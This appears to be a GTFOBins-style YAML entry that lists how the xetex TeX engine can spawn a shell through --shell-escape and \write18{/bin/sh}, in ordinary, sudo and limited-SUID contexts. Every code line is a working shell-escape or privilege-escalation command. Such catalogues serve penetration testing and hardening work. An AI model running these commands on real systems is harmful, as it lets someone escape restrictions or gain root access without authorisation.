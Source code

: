 ```yaml
---
functions:
  shell:
    - code: |
        xetex --shell-escape '\write18{/bin/sh}\end'
  sudo:
    - code: |
        sudo xetex --shell-escape '\write18{/bin/sh}\end'
  limited-suid:
    - code: |
        ./xetex --shell-escape '\write18{/bin/sh}\end'
---
```

